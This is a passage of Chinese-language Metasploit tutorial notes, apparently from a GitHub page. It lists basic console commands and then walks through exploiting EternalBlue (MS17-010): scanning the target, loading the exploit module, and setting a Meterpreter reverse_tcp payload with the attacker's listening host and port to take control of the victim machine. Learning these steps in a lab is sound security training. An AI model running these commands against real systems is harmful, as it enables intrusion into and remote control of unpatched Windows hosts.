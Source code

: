 ```shell
#save:
设置的参数在下一次启动的时候不会生效，可以用save保存我们使用过程的设置。
/root/.msf4/config cat到文件进行查看

#check:
检查目标是否真的存在这个漏洞，大部分模块没有check功能

#run/exploit:
攻击

#jobs/kill:
杀死进程

#session:
建立会话

#
```

### 2.17.2 msf利用永恒之蓝漏洞的流程(靶机需要是win10以下系统)

```shell
0.探测靶机是否存在永恒之蓝漏洞
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.102.225.226
run


1．使用模块
use exploit/windows/smb/ms17_010_eternalblue

2.设置必选项
>查看必选项[*required为yes的就是必选项]show options

#RHOSTS为target host(s)代表你要攻击谁
set RHOSTS 192.168.1.128

#payload是攻击载荷，就是攻击完成后想干啥，这里是想获取meterpreter
#meterpreter是metasploit后渗透的神器
set payload windows/x64/meterpreter/reverse_tcp

#LHOSTS为listen host代表你是谁，既Kali的IP地址
set LHoST 192.168.1.136

#LPORT为listen port，代表你要在kali上开启的端口，1-65535随便选，但不能被占用
set LPORT 12345


3.运行
#执行run命令即可。
run

4.之后可以肉鸡进行操作
```
